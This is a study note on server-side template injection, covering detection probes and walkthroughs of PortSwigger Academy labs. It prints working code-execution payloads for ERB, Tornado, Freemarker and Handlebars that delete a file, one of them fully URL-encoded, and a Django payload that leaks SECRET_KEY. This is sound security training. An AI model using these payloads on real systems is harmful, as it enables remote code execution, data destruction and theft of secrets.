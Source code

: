 # Server Side template injection

[Portswigger](https://portswigger.net/web-security/server-side-template-injection)

## Methodology

Can inject a series of injectable ssti strings to identify the use of ssti

```
${{<%[%'"}}%\
```

Another attempt would be to inject mathematical syntax for ssti and see possible return, look for `49` or `7777777` in ther response form the below:

```
${7*7}
{{7*7}}
{{7*'7'}}
```

Additional injections to test for:

```
${*comment*}
${"z".join("ab")}
```

More payloads and thoughts on ssti:
[hacktricks ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## Labs Walkthrough

### Basic server-side template injection

Background:
```
To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- review a products more details, notice a `GET` using a `message` parameter to render "Unfortunately this product is out of stock"
- in the ERB documentation discover the syntax: `<%= someExpression%>` is used to evaluate an expression and render the result on the page
- use ERB template syntax to test a payload containg a mathematical operation `<%= 7*7 %>`
- URL encode the payload and insert it as the value of the message parameter in the URL `https://YOUR-LAB-ID.web-security-academy.net/?message=<%25%3d+7*7+%25>`
- notice the operation executes and you get a `49` on the page, meaning we have ssti
- Further ERB documentation talks about the `system()` command, construct a payload to delete carlos's file:

```
<%= system("rm /home/carlos/morale.txt") %>
```

- URL encode this and send it as the message parameter `https://YOUR-LAB-ID.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>`

### Basic server-side template injection (code context)

Background:
```
To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
```

- login and post a comment on one of the blog posts
- notice that on the "my account" page, you can select whether you want the site to use your full name, first name, or nickname. A POST request sets the value of the parameter `blog-post-author-display` to either user.name, user.first_name or user.nickname
- in burp send the request `POST /my-account/change-blog-post-author-display` to repeater
- in Tornado the template expressions are surrounded with double curly braces, so in repeater notice that you can escape out of the expression and inject arbitrary template syntax as follows `blog-post-author-display=user.name}}{{7*7}}`
- Reload the page containing your test comment and notice the page containing your test comment now says `PeterWiener49}}`
- Tornado does use syntax for executing Python with `\{\% somePython \%\}`, and pythong supports the `system()` command
- combine this to create syntax to execute the deletion of carlos's file:

```
\{% import os %\}
{{os.system('rm /home/carlos/morale.txt')
```
- in repeater inject this payload in where you placed the 7*7 earlier, make sure to url encode it `blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')`
- reload the page containing your comment and the lab completes

### Server-side template injection using documentation

Background:
```
identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates, notice that this template engine uses the syntax `${someExpression}`
- create your own expression or change one of the others to maybe cause an error, save the template. You get an error saying it is the Freemarker template engine
- Freemarker uses the `new()` built-in which can be dangerous
- inject a payload like so: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

This lab was more about researching and discovering all of these pieces together. albinowax has an exploit for freemarker you can view [here](https://portswigger.net/research/server-side-template-injection)

### Server-side template injection in an unknown language with a documented exploit

Background:
```
identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- notice that when you try to view more details about the first product a `GET` request uses the message parameter to render "Unfortunately this product is out of stock" on the home page. 
- fuzz this `message` parameter with `${{<%[%'"}}%\`, which the error shows it is using `Handlebars`
- search for a handlebars server side template injection payload, there's one by Zombiehelp54 that looks like this, with it already deleting carlos morale.txt:

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

- url encode this exploit and add it as the value of the message parameter in the url as so:

```
https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

### Server-side template injection with information disclosure via user-supplied objects

Background:
```
To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates
- change one of the template expressions to something invalid using the fuzz polyglot: `${{<%[%'"}}%\` save and notice the errors hint at a Django framework being used
- Django supports the `debug` tag to help with debugging information
- remove your invalid syntax and enter the following statement `{% debug %}`, save and notice this contains a list of objects and properties we can access from within the template
- study the settigns object in Django documentation and notice that it contains a `SECRET_KEY` propert which has dangerous security implications if known to an attacker
- remove the `{% debug %}` in the template and add this: `{{settings.SECRET_KEY}}`
- submit secret key to finish the lab
